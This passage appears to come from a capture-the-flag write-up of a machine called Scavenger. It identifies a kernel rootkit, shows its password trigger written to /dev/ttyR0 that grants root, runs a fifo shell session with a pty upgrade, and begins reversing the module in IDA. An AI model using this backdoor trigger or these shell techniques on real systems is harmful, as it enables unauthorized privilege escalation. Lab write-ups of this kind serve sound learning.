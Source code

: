 
    module_init(root_init);
    module_exit(root_exit);



Some Googling of strings from this source lands me [on
0x00sec.org](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485).
Comparing the source to the code from this post confirms it's the same.
To trigger the root kit in the post, I need to send the password,
"g0tR0ot" to `/dev/ttyR0`. In the example from the site, it works:



    $ id
    uid=1000(pico) gid=1000(pico) groups=1000(pico)
    $ echo "g0tR0ot" > /dev/ttyR0
    $ id
    uid=0(root) gid=0(root) groups=0(root)



On Scavenger, it does not:



    root@kali# ./scavenger-stateful.py 
    [*] Session ID: 52451
    [*] Setting up fifo shell on target
    [+] Read Thread starting
    scavenger> python -c 'import pty;pty.spawn("/bin/sh")'
    $ 
    scavenger> toggle_prompt
    id
    uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)
    $ 
    echo "g0tR0ot" > /dev/ttyR0
    $ 
    id
    uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)



Still, the fact that `/dev/ttyR0` exists on the box at all hints that
I'm in the right spot.

### RE

Now I'll open the module in Ida Pro free and take a look. Ida highlights
in white five user defined functions to take a look at:

![](/img/1566759480538.png)

Consistent with the blog post, `root_write` is the interesting one.

Right away I can see that the result of a `memcmp` determines if it goes
into setting the user information to 0 (root), or to failure:

![](/img/1566759635185.png)
